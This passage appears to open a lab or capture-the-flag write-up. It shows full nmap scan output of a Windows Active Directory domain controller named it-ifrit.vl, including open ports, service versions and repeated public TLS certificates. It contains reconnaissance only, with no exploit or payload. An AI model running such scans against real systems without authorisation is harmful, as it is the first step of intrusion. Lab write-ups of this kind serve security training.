

As usual I will start by performing a full scan of all the open TCP services on this machine:

```bash
PORT     STATE SERVICE       REASON         VERSION
53/tcp   open  domain        syn-ack ttl 64 Simple DNS Plus
80/tcp   open  http          syn-ack ttl 64 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2026-04-01 13:16:18Z)
135/tcp  open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: it-ifrit.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC07.it-ifrit.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC07.it-ifrit.vl
| Issuer: commonName=it-ifrit-CA/domainComponent=it-ifrit
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha512WithRSAEncryption
| Not valid before: 2025-07-21T16:33:04
| Not valid after:  2026-07-21T16:33:04
| MD5:     21c8 9f4a a5be 5fa9 3923 fcbc 3f9e 5bd4
| SHA-1:   5aa8 2376 e2c9 250d 0e21 3a64 57dc 4056 5e5e 2564
| SHA-256: c6d6 7cc4 dd0b a039 1be9 4a49 8709 d69a 583c e914 3d23 5145 48dc de96 bcf0 c211
| -----BEGIN CERTIFICATE-----
| MIIHIjCCBQqgAwIBAgITEgAAACM0H6As66NJWAAgAAAAIzANBgkqhkiG9w0BAQ0F
| ADBEMRIwEAYKCZImiZPyLGQBGRYCdmwxGDAWBgoJkiaJk/IsZAEZFghpdC1pZnJp
| dDEUMBIGA1UEAxMLaXQtaWZyaXQtQ0EwHhcNMjUwNzIxMTYzMzA0WhcNMjYwNzIx
| MTYzMzA0WjAbMRkwFwYDVQQDExBEQzA3Lml0LWlmcml0LnZsMIIBIjANBgkqhkiG
| 9w0BAQEFAAOCAQ8AMIIBCgKCAQEAr7bEkB4gNU6J6YsBdUTwE4yNOMS5jAcz/F7O
| NPO/ctLXPTnoXizkoGcIv5yiQpQnKzlIedf6VyylI8x5bVPp4cMgnFGxr0vqlQ6m
| XXsvbytgPca7tlvxoZM3khniZqk97I1k0Eb9TTYGBnHIYX4u4acvKFPJ8vtVn74q
| bQKx3u5YeydRWXZ0ozjvpO9sU05gDBTewaq1t0ca83do3bxWB7AtBpVmkae3V1do
| JqicNlViOQ2GOvCVTXjPyNqmU6Sd8Jy5jcotwITkKOz1gVdR0BxOzaYD/ij+wCmj
| 9Wt1KXzUoAGc9dRROO9M/TIO9a1WoyPymcfBZEsag1Ig5x/p8QIDAQABo4IDNDCC
| AzAwLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwA
| ZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMC
| BaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQC
| AgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCG
| SAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUE7gmnsN1pUvs
| fWUx6s8ju12GorowHwYDVR0jBBgwFoAUZLUWT8ahEdGmj27NXXF/1JuEBpcwgcYG
| A1UdHwSBvjCBuzCBuKCBtaCBsoaBr2xkYXA6Ly8vQ049aXQtaWZyaXQtQ0EsQ049
| REMwNyxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2Vydmlj
| ZXMsQ049Q29uZmlndXJhdGlvbixEQz1pdC1pZnJpdCxEQz12bD9jZXJ0aWZpY2F0
| ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9u
| UG9pbnQwgb0GCCsGAQUFBwEBBIGwMIGtMIGqBggrBgEFBQcwAoaBnWxkYXA6Ly8v
| Q049aXQtaWZyaXQtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2Vz
| LENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9aXQtaWZyaXQsREM9dmw/
| Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRo
| b3JpdHkwPAYDVR0RBDUwM6AfBgkrBgEEAYI3GQGgEgQQ0zEzV7gIXkKx6uuyLy1I
| pIIQREMwNy5pdC1pZnJpdC52bDBNBgkrBgEEAYI3GQIEQDA+oDwGCisGAQQBgjcZ
| AgGgLgQsUy0xLTUtMjEtMjY3OTYzMzI3NC0yNTcyMjk4NTEyLTYxMzYyMjIyLTEw
| MDAwDQYJKoZIhvcNAQENBQADggIBABdEkUeinFDJS1v0w2GMQ94SFS6jyhsE8m6W
| jfY3SA92HTgdCtY5uJ+bKPzoGHyBGYDh/27/8Aj1IRnmJc7KyyPs+H7tflI+exBH
| oJkDjkgsullSc9fzAW8LOIJYxOXY5/oS8tc3aQxSn3rXu75v/k0KV0puVQMAi98t
| DlvIFbvNw6eAfHV2kbXcF+emLlPOwBT9b0lopMTAJ7NwaSJtHzaHcWGYDzCVf4t2
| 8IyARbUe/xuxm4CWwHVNV/nHXa6QfnFbdqP0aSOe4vKlPsCpzizy9y+bcIXpPZbA
| 2QPNd1r1ca6J1wbHWEX5e6+g7GIKX7s0Kvo1kPvOH+ZZmdGE3fa5eJZeSUTGcBxD
| q+GuVTgmYyIYzgsNcUKzmVg+nvldTcXdHX6N+XwA6oKjioAqaxywbIZnw8nh5SGC
| 3Y6cwwCic8Si+nHqlU32aEfKHVxrpJDLzyb4hIH94AOBeU0WNTSw96DUXlGwd9Hv
| FY/pEGcWFmEwN8byb7ZzEf6LNiZX0TM0KlRRBXtZgILW3G3DOXpw6mWVjDlbgxja
| ZzDRl4765UqFdCE78Nxwn20be80XNcg2FtDZ98zwIKyiXD8GGgK4C09qyEDLnuYQ
| GFQeZoL8xM6CziVPWaYYJkVkazgz+dVkRatTY+dFozHy5QJnuv/EDxpmPs+nPUH8
| hE55F6v1
|_-----END CERTIFICATE-----
443/tcp  open  ssl/http      syn-ack ttl 64 Microsoft IIS httpd 10.0
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=it-ifrit-CA/domainComponent=it-ifrit
| Issuer: commonName=it-ifrit-CA/domainComponent=it-ifrit
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha512WithRSAEncryption
| Not valid before: 2024-07-14T09:55:36
| Not valid after:  2524-07-14T10:05:35
| MD5:     fe8f c24a b71b ffc3 cade 00b8 697d 446d
| SHA-1:   8f91 43f6 de2b 715b eb99 458c 98b0 b724 b390 e3fd
| SHA-256: cc3a 87d5 fda1 7fde 1775 c1ab 3772 a32e ae01 b117 e6d0 36c8 929b d2d3 c6ea 8d8c
| -----BEGIN CERTIFICATE-----
| MIIFZTCCA02gAwIBAgIQG3S7ec7paLFNn2TLDai8LDANBgkqhkiG9w0BAQ0FADBE
| MRIwEAYKCZImiZPyLGQBGRYCdmwxGDAWBgoJkiaJk/IsZAEZFghpdC1pZnJpdDEU
| MBIGA1UEAxMLaXQtaWZyaXQtQ0EwIBcNMjQwNzE0MDk1NTM2WhgPMjUyNDA3MTQx
| MDA1MzVaMEQxEjAQBgoJkiaJk/IsZAEZFgJ2bDEYMBYGCgmSJomT8ixkARkWCGl0
| LWlmcml0MRQwEgYDVQQDEwtpdC1pZnJpdC1DQTCCAiIwDQYJKoZIhvcNAQEBBQAD
| ggIPADCCAgoCggIBANIk5S2CaqlXoUUv1PT+gqpVtHQD0seOE3TEW9P0TB7Jo1un
| RASd8KpLhqmIm+vlCxluGJRKl0FkAe0ko69QxHIgL8Y0pNFtfH5N/u9hjK3UfRnx
| Bgd44xsbkD/sYUlhBpJarUnW048k8hZ+MIC3ksF2KIV95TltqA2no0I1a8Pce4Dd
| +kT1/4bZ98ayaK/SxQcvcPIQPfE2uJea81NSw8V8Tm4COjQXEM1e3pmAmNwmKSc/
| k4X4BQOKeOw+8Qb4UD0EUc71o00OoVc5FMmyJo9UHI6XXlufxFen7ZGMhUSa6uaZ
| f8N4kk7DRIITLgbx9nTZEmD2QxMUBZKGm6ttAieBf1QHfUFEjLFRtpH69wYzC6B7
| LuhSK6QpJVuwm9HRvgmcHEMP4Ol2xOH2KgMYEXNGMGpEap0BNgf+lgIitCPhE/to
| eJ3MfJRMFUDYinVhX/djAHHc+uEnsykRRgD3AiWfqZM3i7aSdkq2wt0oA/sr++wD
| ouUdDmxrsKUBslFGOxVSxcDpSct9d0HFObMj0DuA7v2eKCzlp8UFFzUYfFAEyYl4
| arqURIHHdOOlf264/r1luPmohzxLjnmYTrMTcyVx1g4F6O9mJFO1o8ugG6U8Y5e7
| OTrt6+4xCHyXqxzSrTim4T8hzSYcAqPfarbSbP4gvSrRGlOlSB0AQUM29zXZAgMB
| AAGjUTBPMAsGA1UdDwQEAwIBhjAPBgNVHRMBAf8EBTADAQH/MB0GA1UdDgQWBBRk
| tRZPxqER0aaPbs1dcX/Um4QGlzAQBgkrBgEEAYI3FQEEAwIBADANBgkqhkiG9w0B
| AQ0FAAOCAgEAFZwrvSeMPxhN/mOEFIt2TbGi8DCEbrZ2V2UUhVmK8Hwrc0t2W5ft
| 2VsTOk6geMavC1SPZZ6CzBU4X3swq0NvzE5MrqjmvEop6unFGVcJ+nX4tQWeMrjW
| lcwq3u2AIoGpvSnPO8kt3WZax8PjrNuDO/cKELdu5i9vbosO74d9tg7tlYxY2xC4
| ADjpgvnKqO2KdGGXjjY84dC0l/sH0+cMVAWxz43IhFabQgkWm4kNDwvrIcyZ4O6p
| lorcKmQJ4YHhDwKuY1lQ34gueVBm+tqU+noir37eIUK1N/r5VdeR27OHs4RvQ/7m
| P5gQtX9y+SmWGzTX9yjXryvBDngfCFK1clAWBu4faogI4Tv3znJ5e4FcrYP7HqzB
| b39gFZIYclvyQYwf19UJbfE4pHo3cpkotzUA/+Auep6hC1MMkMU3x4zbK2YNJ4k2
| DrBumjEwhv53plG/bTfoYAqhzzns1+rwnGbBhwBN6YswfxMfxAjYVwAc8u3y7fec
| D/d6FmdZFnhMGae2m8dVWMdi+7VlDvfry1apZoKec9ZShOmBtQbK8ICA/OQy81sx
| XWIIAoeQwKbEyl9KiElmtMVAxcPVn8zDsjzAcMYK/sOunOMi/aP+yJEwUK0sVZU4
| sF/6Lv41YKhWTIpiu82z+aGv8YbYoTC1pngjoiouvilnRNihpx7J8BA=
|_-----END CERTIFICATE-----
445/tcp  open  microsoft-ds? syn-ack ttl 64
464/tcp  open  kpasswd5?     syn-ack ttl 64
593/tcp  open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: it-ifrit.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC07.it-ifrit.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC07.it-ifrit.vl
| Issuer: commonName=it-ifrit-CA/domainComponent=it-ifrit
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha512WithRSAEncryption
| Not valid before: 2025-07-21T16:33:04
| Not valid after:  2026-07-21T16:33:04
| MD5:     21c8 9f4a a5be 5fa9 3923 fcbc 3f9e 5bd4
| SHA-1:   5aa8 2376 e2c9 250d 0e21 3a64 57dc 4056 5e5e 2564
| SHA-256: c6d6 7cc4 dd0b a039 1be9 4a49 8709 d69a 583c e914 3d23 5145 48dc de96 bcf0 c211
| -----BEGIN CERTIFICATE-----
| MIIHIjCCBQqgAwIBAgITEgAAACM0H6As66NJWAAgAAAAIzANBgkqhkiG9w0BAQ0F
| ADBEMRIwEAYKCZImiZPyLGQBGRYCdmwxGDAWBgoJkiaJk/IsZAEZFghpdC1pZnJp
| dDEUMBIGA1UEAxMLaXQtaWZyaXQtQ0EwHhcNMjUwNzIxMTYzMzA0WhcNMjYwNzIx
| MTYzMzA0WjAbMRkwFwYDVQQDExBEQzA3Lml0LWlmcml0LnZsMIIBIjANBgkqhkiG
| 9w0BAQEFAAOCAQ8AMIIBCgKCAQEAr7bEkB4gNU6J6YsBdUTwE4yNOMS5jAcz/F7O
| NPO/ctLXPTnoXizkoGcIv5yiQpQnKzlIedf6VyylI8x5bVPp4cMgnFGxr0vqlQ6m
| XXsvbytgPca7tlvxoZM3khniZqk97I1k0Eb9TTYGBnHIYX4u4acvKFPJ8vtVn74q
| bQKx3u5YeydRWXZ0ozjvpO9sU05gDBTewaq1t0ca83do3bxWB7AtBpVmkae3V1do
| JqicNlViOQ2GOvCVTXjPyNqmU6Sd8Jy5jcotwITkKOz1gVdR0BxOzaYD/ij+wCmj
| 9Wt1KXzUoAGc9dRROO9M/TIO9a1WoyPymcfBZEsag1Ig5x/p8QIDAQABo4IDNDCC
| AzAwLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwA
| ZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMC
| BaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQC
| AgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCG
| SAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUE7gmnsN1pUvs
| fWUx6s8ju12GorowHwYDVR0jBBgwFoAUZLUWT8ahEdGmj27NXXF/1JuEBpcwgcYG
| A1UdHwSBvjCBuzCBuKCBtaCBsoaBr2xkYXA6Ly8vQ049aXQtaWZyaXQtQ0EsQ049
| REMwNyxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2Vydmlj
| ZXMsQ049Q29uZmlndXJhdGlvbixEQz1pdC1pZnJpdCxEQz12bD9jZXJ0aWZpY2F0
| ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9u
| UG9pbnQwgb0GCCsGAQUFBwEBBIGwMIGtMIGqBggrBgEFBQcwAoaBnWxkYXA6Ly8v
| Q049aXQtaWZyaXQtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2Vz
| LENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9aXQtaWZyaXQsREM9dmw/
| Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRo
| b3JpdHkwPAYDVR0RBDUwM6AfBgkrBgEEAYI3GQGgEgQQ0zEzV7gIXkKx6uuyLy1I
| pIIQREMwNy5pdC1pZnJpdC52bDBNBgkrBgEEAYI3GQIEQDA+oDwGCisGAQQBgjcZ
| AgGgLgQsUy0xLTUtMjEtMjY3OTYzMzI3NC0yNTcyMjk4NTEyLTYxMzYyMjIyLTEw
| MDAwDQYJKoZIhvcNAQENBQADggIBABdEkUeinFDJS1v0w2GMQ94SFS6jyhsE8m6W
| jfY3SA92HTgdCtY5uJ+bKPzoGHyBGYDh/27/8Aj1IRnmJc7KyyPs+H7tflI+exBH
| oJkDjkgsullSc9fzAW8LOIJYxOXY5/oS8tc3aQxSn3rXu75v/k0KV0puVQMAi98t
| DlvIFbvNw6eAfHV2kbXcF+emLlPOwBT9b0lopMTAJ7NwaSJtHzaHcWGYDzCVf4t2
| 8IyARbUe/xuxm4CWwHVNV/nHXa6QfnFbdqP0aSOe4vKlPsCpzizy9y+bcIXpPZbA
| 2QPNd1r1ca6J1wbHWEX5e6+g7GIKX7s0Kvo1kPvOH+ZZmdGE3fa5eJZeSUTGcBxD
| q+GuVTgmYyIYzgsNcUKzmVg+nvldTcXdHX6N+XwA6oKjioAqaxywbIZnw8nh5SGC
| 3Y6cwwCic8Si+nHqlU32aEfKHVxrpJDLzyb4hIH94AOBeU0WNTSw96DUXlGwd9Hv
| FY/pEGcWFmEwN8byb7ZzEf6LNiZX0TM0KlRRBXtZgILW3G3DOXpw6mWVjDlbgxja
| ZzDRl4765UqFdCE78Nxwn20be80XNcg2FtDZ98zwIKyiXD8GGgK4C09qyEDLnuYQ
| GFQeZoL8xM6CziVPWaYYJkVkazgz+dVkRatTY+dFozHy5QJnuv/EDxpmPs+nPUH8
| hE55F6v1
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: it-ifrit.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC07.it-ifrit.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC07.it-ifrit.vl
| Issuer: commonName=it-ifrit-CA/domainComponent=it-ifrit
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha512WithRSAEncryption
| Not valid before: 2025-07-21T16:33:04
| Not valid after:  2026-07-21T16:33:04
| MD5:     21c8 9f4a a5be 5fa9 3923 fcbc 3f9e 5bd4
| SHA-1:   5aa8 2376 e2c9 250d 0e21 3a64 57dc 4056 5e5e 2564
| SHA-256: c6d6 7cc4 dd0b a039 1be9 4a49 8709 d69a 583c e914 3d23 5145 48dc de96 bcf0 c211
| -----BEGIN CERTIFICATE-----
| MIIHIjCCBQqgAwIBAgITEgAAACM0H6As66NJWAAgAAAAIzANBgkqhkiG9w0BAQ0F
| ADBEMRIwEAYKCZImiZPyLGQBGRYCdmwxGDAWBgoJkiaJk/IsZAEZFghpdC1pZnJp
| dDEUMBIGA1UEAxMLaXQtaWZyaXQtQ0EwHhcNMjUwNzIxMTYzMzA0WhcNMjYwNzIx
| MTYzMzA0WjAbMRkwFwYDVQQDExBEQzA3Lml0LWlmcml0LnZsMIIBIjANBgkqhkiG
| 9w0BAQEFAAOCAQ8AMIIBCgKCAQEAr7bEkB4gNU6J6YsBdUTwE4yNOMS5jAcz/F7O
| NPO/ctLXPTnoXizkoGcIv5yiQpQnKzlIedf6VyylI8x5bVPp4cMgnFGxr0vqlQ6m
| XXsvbytgPca7tlvxoZM3khniZqk97I1k0Eb9TTYGBnHIYX4u4acvKFPJ8vtVn74q
| bQKx3u5YeydRWXZ0ozjvpO9sU05gDBTewaq1t0ca83do3bxWB7AtBpVmkae3V1do
| JqicNlViOQ2GOvCVTXjPyNqmU6Sd8Jy5jcotwITkKOz1gVdR0BxOzaYD/ij+wCmj
| 9Wt1KXzUoAGc9dRROO9M/TIO9a1WoyPymcfBZEsag1Ig5x/p8QIDAQABo4IDNDCC
| AzAwLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwA
| ZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMC
| BaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQC
| AgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCG
| SAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUE7gmnsN1pUvs
| fWUx6s8ju12GorowHwYDVR0jBBgwFoAUZLUWT8ahEdGmj27NXXF/1JuEBpcwgcYG
| A1UdHwSBvjCBuzCBuKCBtaCBsoaBr2xkYXA6Ly8vQ049aXQtaWZyaXQtQ0EsQ049
| REMwNyxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2Vydmlj
| ZXMsQ049Q29uZmlndXJhdGlvbixEQz1pdC1pZnJpdCxEQz12bD9jZXJ0aWZpY2F0
| ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9u
| UG9pbnQwgb0GCCsGAQUFBwEBBIGwMIGtMIGqBggrBgEFBQcwAoaBnWxkYXA6Ly8v
| Q049aXQtaWZyaXQtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2Vz
| LENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9aXQtaWZyaXQsREM9dmw/
| Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRo
| b3JpdHkwPAYDVR0RBDUwM6AfBgkrBgEEAYI3GQGgEgQQ0zEzV7gIXkKx6uuyLy1I
| pIIQREMwNy5pdC1pZnJpdC52bDBNBgkrBgEEAYI3GQIEQDA+oDwGCisGAQQBgjcZ
| AgGgLgQsUy0xLTUtMjEtMjY3OTYzMzI3NC0yNTcyMjk4NTEyLTYxMzYyMjIyLTEw
| MDAwDQYJKoZIhvcNAQENBQADggIBABdEkUeinFDJS1v0w2GMQ94SFS6jyhsE8m6W
| jfY3SA92HTgdCtY5uJ+bKPzoGHyBGYDh/27/8Aj1IRnmJc7KyyPs+H7tflI+exBH
| oJkDjkgsullSc9fzAW8LOIJYxOXY5/oS8tc3aQxSn3rXu75v/k0KV0puVQMAi98t
| DlvIFbvNw6eAfHV2kbXcF+emLlPOwBT9b0lopMTAJ7NwaSJtHzaHcWGYDzCVf4t2
| 8IyARbUe/xuxm4CWwHVNV/nHXa6QfnFbdqP0aSOe4vKlPsCpzizy9y+bcIXpPZbA
| 2QPNd1r1ca6J1wbHWEX5e6+g7GIKX7s0Kvo1kPvOH+ZZmdGE3fa5eJZeSUTGcBxD
| q+GuVTgmYyIYzgsNcUKzmVg+nvldTcXdHX6N+XwA6oKjioAqaxywbIZnw8nh5SGC
| 3Y6cwwCic8Si+nHqlU32aEfKHVxrpJDLzyb4hIH94AOBeU0WNTSw96DUXlGwd9Hv
| FY/pEGcWFmEwN8byb7ZzEf6LNiZX0TM0KlRRBXtZgILW3G3DOXpw6mWVjDlbgxja
| ZzDRl4765UqFdCE78Nxwn20be80XNcg2FtDZ98zwIKyiXD8GGgK4C09qyEDLnuYQ
| GFQeZoL8xM6CziVPWaYYJkVkazgz+dVkRatTY+dFozHy5QJnuv/EDxpmPs+nPUH8
| hE55F6v1
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: it-ifrit.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC07.it-ifrit.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC07.it-ifrit.vl
| Issuer: commonName=it-ifrit-CA/domainComponent=it-ifrit
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha512WithRSAEncryption
| Not valid before: 2025-07-21T16:33:04
| Not valid after:  2026-07-21T16:33:04
| MD5:     21c8 9f4a a5be 5fa9 3923 fcbc 3f9e 5bd4
| SHA-1:   5aa8 2376 e2c9 250d 0e21 3a64 57dc 4056 5e5e 2564
| SHA-256: c6d6 7cc4 dd0b a039 1be9 4a49 8709 d69a 583c e914 3d23 5145 48dc de96 bcf0 c211
| -----BEGIN CERTIFICATE-----
| MIIHIjCCBQqgAwIBAgITEgAAACM0H6As66NJWAAgAAAAIzANBgkqhkiG9w0BAQ0F
| ADBEMRIwEAYKCZImiZPyLGQBGRYCdmwxGDAWBgoJkiaJk/IsZAEZFghpdC1pZnJp
| dDEUMBIGA1UEAxMLaXQtaWZyaXQtQ0EwHhcNMjUwNzIxMTYzMzA0WhcNMjYwNzIx
| MTYzMzA0WjAbMRkwFwYDVQQDExBEQzA3Lml0LWlmcml0LnZsMIIBIjANBgkqhkiG
| 9w0BAQEFAAOCAQ8AMIIBCgKCAQEAr7bEkB4gNU6J6YsBdUTwE4yNOMS5jAcz/F7O
| NPO/ctLXPTnoXizkoGcIv5yiQpQnKzlIedf6VyylI8x5bVPp4cMgnFGxr0vqlQ6m
| XXsvbytgPca7tlvxoZM3khniZqk97I1k0Eb9TTYGBnHIYX4u4acvKFPJ8vtVn74q
| bQKx3u5YeydRWXZ0ozjvpO9sU05gDBTewaq1t0ca83do3bxWB7AtBpVmkae3V1do
| JqicNlViOQ2GOvCVTXjPyNqmU6Sd8Jy5jcotwITkKOz1gVdR0BxOzaYD/ij+wCmj
| 9Wt1KXzUoAGc9dRROO9M/TIO9a1WoyPymcfBZEsag1Ig5x/p8QIDAQABo4IDNDCC
| AzAwLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwA
| ZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMC
| BaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQC
| AgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCG
| SAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUE7gmnsN1pUvs
| fWUx6s8ju12GorowHwYDVR0jBBgwFoAUZLUWT8ahEdGmj27NXXF/1JuEBpcwgcYG
| A1UdHwSBvjCBuzCBuKCBtaCBsoaBr2xkYXA6Ly8vQ049aXQtaWZyaXQtQ0EsQ049
| REMwNyxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2Vydmlj
| ZXMsQ049Q29uZmlndXJhdGlvbixEQz1pdC1pZnJpdCxEQz12bD9jZXJ0aWZpY2F0
| ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9u
| UG9pbnQwgb0GCCsGAQUFBwEBBIGwMIGtMIGqBggrBgEFBQcwAoaBnWxkYXA6Ly8v
| Q049aXQtaWZyaXQtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2Vz
| LENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9aXQtaWZyaXQsREM9dmw/
| Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRo
| b3JpdHkwPAYDVR0RBDUwM6AfBgkrBgEEAYI3GQGgEgQQ0zEzV7gIXkKx6uuyLy1I
| pIIQREMwNy5pdC1pZnJpdC52bDBNBgkrBgEEAYI3GQIEQDA+oDwGCisGAQQBgjcZ
| AgGgLgQsUy0xLTUtMjEtMjY3OTYzMzI3NC0yNTcyMjk4NTEyLTYxMzYyMjIyLTEw
| MDAwDQYJKoZIhvcNAQENBQADggIBABdEkUeinFDJS1v0w2GMQ94SFS6jyhsE8m6W
| jfY3SA92HTgdCtY5uJ+bKPzoGHyBGYDh/27/8Aj1IRnmJc7KyyPs+H7tflI+exBH
| oJkDjkgsullSc9fzAW8LOIJYxOXY5/oS8tc3aQxSn3rXu75v/k0KV0puVQMAi98t
| DlvIFbvNw6eAfHV2kbXcF+emLlPOwBT9b0lopMTAJ7NwaSJtHzaHcWGYDzCVf4t2
| 8IyARbUe/xuxm4CWwHVNV/nHXa6QfnFbdqP0aSOe4vKlPsCpzizy9y+bcIXpPZbA
| 2QPNd1r1ca6J1wbHWEX5e6+g7GIKX7s0Kvo1kPvOH+ZZmdGE3fa5eJZeSUTGcBxD
| q+GuVTgmYyIYzgsNcUKzmVg+nvldTcXdHX6N+XwA6oKjioAqaxywbIZnw8nh5SGC
| 3Y6cwwCic8Si+nHqlU32aEfKHVxrpJDLzyb4hIH94AOBeU0WNTSw96DUXlGwd9Hv
| FY/pEGcWFmEwN8byb7ZzEf6LNiZX0TM0KlRRBXtZgILW3G3DOXpw6mWVjDlbgxja
| ZzDRl4765UqFdCE78Nxwn20be80XNcg2FtDZ98zwIKyiXD8GGgK4C09qyEDLnuYQ
| GFQeZoL8xM6CziVPWaYYJkVkazgz+dVkRatTY+dFozHy5QJnuv/EDxpmPs+nPUH8
| hE55F6v1
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
